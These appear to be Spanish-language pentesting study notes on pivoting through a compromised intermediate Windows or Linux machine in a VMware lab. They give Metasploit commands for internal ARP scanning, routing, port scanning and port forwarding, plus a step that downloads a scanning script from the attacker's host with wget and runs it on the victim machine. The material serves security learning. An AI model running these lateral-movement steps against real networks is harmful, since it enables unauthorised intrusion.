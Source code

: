 
---

### Mapa de Red

Un mapa de red es una representación visual de los componentes y la conectividad de una red, mostrando cómo interactúan entre sí los dispositivos, cables, puertos y otros elementos físicos o lógicos Se utiliza para la gestión, el mantenimiento, la identificación de problemas y la planificación de crecimiento de la red

![[Pasted image 20251023155942.png]]

---

#### Pivoting en Maquina Intermedia Windows 

Para visualizar las interfaces de red que posee una maquina podemos aplicar los siguientes comandos:

```bash
ifconfig # Linux y sesion de Meterpreter
ipconfig # Windows
```

- Se recomienda siempre estar en meterpreter ya que nos facilita el pivoting de maquinas:

```bash
background   # Colocamos la sesion en segundo plano, tambien podemos con Ctrl + Z
sessions -l  # Para ver que sesiones tenemos o tambien podemos usar el comandos show sessions
use windows/gather/arp_scanner # Modulo que nos ayuda a buscar que equipos hay en la red interna 
show options
set SESSION 1   # seteamos el id de la Sesion que dejamos en background
set RHOSTS 10.10.10.128/24  # Seteamos la ip de la interfaz de red interna y ademas su mascara de red para que escanee toda la red 
run 

# Esto nos arrojara todos los dispositivos que escanee en esa red de los cuales debemos elegir los que mejor tengan coincidencia en el numero de ip 

# Un ejemplo del escaneo podria ser 

- **10.10.10.1** — gateway/DHCP del VMnet (router virtual).
    
- **10.10.10.128** — tú (Nuestra Maquina).
  
- **10.10.10.129** - Maquina victima
      
- **10.10.10.255** — dirección de broadcast de la subred (no es un host).
    
- **10.10.10.254** — interfaz del host/otro adaptador virtual (MAC VMware), no una VM víctima.
  
```

- Cuando encontremos el objetivo a atacar haremos lo siguiente:

```bash
use multi/manage/autoruote  # Modulo para hacer el enrutamiento del trafico
show options
set SESSION 1    # Seteamos la sesion que tenemos en background
run              # Ya tendriamos el trafico de la red interna
```

- Ahora procederíamos a realizar un escaneo de puertos de la red interna:

```bash
use scanner/portscan/tcp    # Modulo de escaneo de puertos
show options
set RHOSTS 10.10.10.129    # Ip de la maquina victima de la red interna
run
```

- Luego de la ejecución veríamos algo como lo siguiente donde nos mostraría los puertos de la red interna de la maquina victima: 

![[Pasted image 20251023165543.png]]


*Modulo solo si el pivoting es en windows*

```bash
use post/windows/manage/portproxy     # Modulo para realizar el port forwarding
show options
set CONNECT_ADDRESS 10.10.10.129  # Ip de la maquina victima de la red interna
set CONNECT_PORT 80               # Puerto que queremos atacar de la maquina victima en la red interna
set LOCAL_ADDRESS 0.0.0.0         # Siempre se pone eso  referenciando a la ip de la maquina en la que estamos (windows 7)
set LOCAL_PORT 5000               # Ejecutamos el portforwarding diciendo que queremos que el puerto 80 de la maquina victima sea el puerto                                         5000 de nuestra maquina atacante
set SESSION 1                     # Seteamos la session que teniamos en background
run 
```

*Asi se mostraria el resultado del portfowarding*

![[Pasted image 20251023170459.png]]

- Accedemos a la pagina web de la siguiente forma:

```bash
http://192.168.1.24:5000    # Accedemos mediante la ip de la maquina intermedia y el puerto del port forwading 
```

*El portforwarding lo hacemos con la maquina intermediaria, es decir a la hora de probar o atacar un puerto lo obtenemos de la ip intermediaria*

---

#### Pivoting mediante maquina intermedia Linux

- *No se puede hacer pivoting sin antes ser root*

- Procedemos a enrutar el trafico

```bash
use multi/manage/autoroute  # Modulo para hacer el enrutamiento del trafico
show options
set SESSION 1    # Seteamos la sesion que tenemos en background
run              # Ya tendriamos el trafico de la red interna

route            # Con este comando podemos ver la ruta de enrutamiento
```

- Lo que haremos después para hacer un escaneo de los equipos de la red interna sera crearnos el siguiente script en nuestra maquina atacante y posteriormente compartirlo con la maquina intermediaria levantando un servidor

```bash
nano escaner.sh
> 
	#!/bin/bash
	for i in {1..255}; do
	    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
	    if [ $? -eq 0 ]; then
	        echo "El host 10.10.10.$i está activo"                # Segun sea la Ip , pueden haber otras como 20.20.20.0
	    fi
	done
```

```bash
Atacante >
			python3 -m http.server 80
```

```bash
Intermediaria >
				wget http://<IpAtacante>/escaner.sh
				chmod +x escaner.sh
				./escaner.sh
```

- Nos tendría que aparecer de esta forma, dándonos los host vulnerables: 

![[Pasted image 20251023194006.png]]

- Ahora procederíamos a realizar un escaneo de puertos de la red interna:

```bash
use scanner/portscan/tcp    # Modulo de escaneo de puertos
show options
set RHOSTS 10.10.10.129    # Ip de la maquina victima de la red interna
run
```

- Realizamos el portforwarding del puerto que queramos de la siguiente manera:

```bash
sessions -i 1    # Volvemos a la sesion que teniamos 

meterpreter >
			portfwd add -l <PuertoIntermediario> -p <PuertoRedInterna> -r <IpvictimaInterna>  # Hacemos el port Forwarding a nuestra maquina                local de atacante no a la maquina intermediaria
			
		   #portfwd add -l 2222 -p 22 -r 10.10.10.130 
```

*El portforwarding lo hacemos con nuestra maquina local, es decir a la hora de probar o atacar un puerto lo obtenemos de 127.0.0.1*

